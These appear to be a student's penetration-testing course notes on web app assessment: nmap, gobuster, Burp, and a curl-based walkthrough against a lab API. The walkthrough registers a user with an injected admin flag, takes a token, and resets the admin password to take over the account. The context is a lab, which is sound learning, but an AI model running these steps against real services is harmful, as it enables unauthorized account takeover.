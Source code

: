 ## Assessmnet tools
### finger print with nmap
sudo nmap -p80  -sV 192.168.50.20 -> find services on port 80

**service specific nmap scripts

sudo nmap -p80 --script=http-enum 192.168.50.20
### wappalyzer
https://www.wappalyzer.com/

get technology stack of site
### gobuster
directory brute forcer

gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5

dir - enumerate files and dirs

(also has fuzzing/dns)
### burpsuite (kali)
apps->web app analysis

launch with cmd: burpsuite

### web app enumeration
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

enumerate an API 

curl -i http://192.168.50.16:5002/users/v1

inspect users result from gobuster

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

further results from the curl where admin name was found

find 2 more paths email and password

curl -i http://192.168.50.16:5002/users/v1/admin/password

appending password to the path (note status code) 405 in example

curl -i http://192.168.50.16:5002/users/v1/login

checking the login path note the message "user not found"

curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

craft a JSON format (-H) request (POST instead of GET)

curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

try to register a user (we see email is required property)

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

this successfully registers

curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

log in with curl and a auth token is given from the site

curl 'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
  forge a POST to see if we are successfully an admin user
  curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'

  create a PUT because the last command gave a method not allowed

  no error returned

  curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

  now log in again and get success, so admin account taken over

  **this can be done with burp especially for large APIs

  #### Things to curl
  robots.txt

  sitemap.xml
  
